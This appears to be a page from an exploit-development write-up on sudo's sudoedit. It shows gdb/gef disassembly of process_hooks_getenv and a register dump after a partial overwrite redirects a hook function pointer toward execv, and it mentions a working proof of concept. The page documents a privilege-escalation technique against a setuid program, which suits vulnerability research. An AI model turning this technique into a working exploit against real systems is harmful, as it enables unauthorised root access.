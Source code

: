 Simulating hijack to execv() (libc one, not the PLT at sudoers.so)

`hook` struct address operated at:

```
   0x555555564ff0 <process_hooks_getenv+64> mov    rbx, QWORD PTR [rbx]
   0x555555564ff3 <process_hooks_getenv+67> test   rbx, rbx
   0x555555564ff6 <process_hooks_getenv+70> je     0x55555556500d <process_hooks_getenv+93>
 → 0x555555564ff8 <process_hooks_getenv+72> mov    rdx, QWORD PTR [rbx+0x10]
   0x555555564ffc <process_hooks_getenv+76> mov    rsi, r12
   0x555555564fff <process_hooks_getenv+79> mov    rdi, rbp
   0x555555565002 <process_hooks_getenv+82> call   QWORD PTR [rbx+0x8]
   0x555555565005 <process_hooks_getenv+85> lea    edx, [rax+0x1]
   0x555555565008 <process_hooks_getenv+88> and    edx, 0xfffffffd

```

After the development of a working PoC, the partial overwrite was successful:

```
$rax   : 0x0               
$rbx   : 0x000055607b638b90  →  0x20208a0420002042 ("B "?)
$rcx   : 0x7               
$rdx   : 0x0               
$rsp   : 0x00007ffcb5b1de58  →  0x0000556079797505  →   lea edx, [rax+0x1]
$rbp   : 0x00007f1f0bbe564d  →  "SUDO_EDITOR"
$rsi   : 0x00007ffcb5b1de60  →  0x0000000000000000
$rdi   : 0x00007f1f0bbe564d  →  "SUDO_EDITOR"
$rip   : 0x7f1f0b008a04    
$r8    : 0x00007f1f0c1d2081  →  "-> %s @ %s:%d"
$r9    : 0x00007ffcb5b1ddc0  →  0x0000003000000028 ("("?)
$r10   : 0xffffffff        
$r11   : 0x202             
$r12   : 0x00007ffcb5b1de60  →  0x0000000000000000
$r13   : 0x00007ffcb5b1dea0  →  0x0000000000000000
$r14   : 0x00007ffcb5b1df08  →  0x802a75732b4ae100
$r15   : 0x4               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
────────────────────────────────────────────────
0x00007ffcb5b1de58│+0x0000: 0x0000556079797505  →   lea edx, [rax+0x1] ← $rsp
0x00007ffcb5b1de60│+0x0008: 0x0000000000000000 ← $rsi, $r12
0x00007ffcb5b1de68│+0x0010: 0x802a75732b4ae100
0x00007ffcb5b1de70│+0x0018: 0x0000000000000000
0x00007ffcb5b1de78│+0x0020: 0x00007ffcb5b1def0  →  0x00007f1f0bbee9e8  →  "../../../plugins/sudoers/rcstr.c"
0x00007ffcb5b1de80│+0x0028: 0x00007f1f0bbe564d  →  "SUDO_EDITOR"
0x00007ffcb5b1de88│+0x0030: 0x00007ffcb5b1df98  →  0x0000000000000000
0x00007ffcb5b1de90│+0x0038: 0x00007ffcb5b1df08  →  0x802a75732b4ae100
────────────────────────────────────────────────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x7f1f0b008a04
────────────────────────────────────────────────
[#0] Id 1, Name: "sudoedit", stopped 0x7f1f0b008a04 in ?? (), reason: SIGSEGV
────────────────────────────────────────────────
gef➤
```
